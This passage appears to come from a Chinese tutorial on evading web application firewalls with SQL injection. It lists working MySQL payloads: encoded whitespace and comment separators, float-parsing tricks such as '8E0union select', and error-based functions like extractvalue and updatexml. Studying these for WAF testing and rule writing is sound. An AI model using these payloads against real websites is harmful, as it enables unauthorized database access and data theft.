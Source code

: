 * union%250Cselect
* union%25A0select

![](../.gitbook/assets/waf-bypass9.png)

### 4.1.3 函数分隔符

对基于正则表达式的WAF，我们猜测安全工程师写WAF规则时，可能不知道函数名与左括号之间可以存在特殊字符，或者遗漏可以存在特殊字符。例如匹配函数”concat\\(\\)”的规则写法，“concat\\(”或者”concat\s\\*\\(”，就没有考虑到一些特殊字符。相应的绕过方法，在特殊位置引入特殊的分隔符，逐个测试。这些特殊分隔符发现也是通过Fuzz出来的。

```text

```

* concat%2520\(
* concat/\*\*/\(
* concat%250c\(
* concat%25a0\(

  举一反三，寻找类似的关键位置，Fuzz特殊字符，发现更多的绕过新方法。猜测工程师们写规则因为各种原因容易遗漏的点，进行绕过WAF检测。

### 4.1.4   浮点数词法解析

利用MySQL解析浮点数的特点，正则表达式无法匹配出单词union，但是MySQL词法解析成功解析出浮点数、sql关键字union。

```text

```

* select \* from users where id=8E0union select 1,2,3,4,5,6,7,8,9,0
* select \* from users where id=8.0union select 1,2,3,4,5,6,7,8,9,0
* select \* from users where id=\Nunion select 1,2,3,4,5,6,7,8,9,0

### 4.1.5   利用error-based进行SQL注入

Error-based的SQL注入函数非常容易被忽略，导致WAF规则过滤不完整。随着对MySQL研究越来越深，被发现可用于error-based SQL注入的函数越来越多，同时也给绕过WAF造就了更多机会。常见的函数：

* extractvalue\(1, concat\(0x5c,md5\(3\)\)\);
* updatexml\(1, concat\(0x5d,md5\(3\)\),1\);
* GeometryCollection\(\(select\*from\(select\*from\(select@@version\)f\)x\)\)
* polygon\(\(select\*from\(select name\_const\(version\(\),1\)\)x\)\)
* linestring\(\) 
* multipoint\(\) 
* multilinestring\(\) 
* multipolygon\(\)

  利用Error-based的SQL注入函数进行绕过时，可以结合函数分隔符，或其他方法灵活运用。

### 4.1.6   Mysql特殊语法

最有效的发现手段，还是去读读MySQL词法分析源代码。和协议绕过类似，挖掘SQL标准与MySQL的词法分析差异是发现WAF SQL注入绕过的有效手段。以下是MySQL语法的一个特写\\(ps:不是我发现的\\)：
